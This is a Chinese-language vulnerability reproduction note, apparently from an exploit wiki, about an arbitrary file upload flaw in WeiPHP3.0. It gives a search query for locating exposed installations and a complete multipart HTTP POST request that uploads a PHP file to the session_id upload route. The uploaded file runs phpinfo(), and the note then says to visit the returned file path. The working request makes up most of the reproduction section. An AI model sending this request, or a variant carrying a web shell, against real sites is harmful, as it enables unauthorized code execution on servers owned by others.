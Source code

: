 # WeiPHP3.0 session_id 任意文件上传漏洞

## 漏洞描述

WeiPHP3.0 session_id 存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

<a-checkbox checked>WeiPHP3.0</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="weiphp"</a-checkbox></br>

## 漏洞复现

登陆页面标识

![img](/assets/PeiQi-Wiki/img/1628213492648-3347796e-a88d-4455-909a-f5d8f4ac047f.png)

发送请求包上传文件

```php
POST /index.php?s=%2FHome%2FFile%2Fupload%2Fsession_id%2Fscevs8hub3m5ogla05a421hb42.html HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 831
Content-Type: multipart/form-data; boundary=------------------------e37a54d7d5380c9f
Accept-Encoding: gzip

--------------------------e37a54d7d5380c9f
Content-Disposition: form-data; name="download"; filename="882176.php"
Content-Type: application/octet-stream

<?php
phpinfo();

--------------------------e37a54d7d5380c9f--
```

![img](/assets/PeiQi-Wiki/img/1628213649320-464f9e3a-8b64-46b2-b4f8-4afc74fdb3e3.png)

获取目录后访问回显的 path

![img](/assets/PeiQi-Wiki/img/1628213733752-1746e894-4003-47eb-b50b-6d374133443c.png)



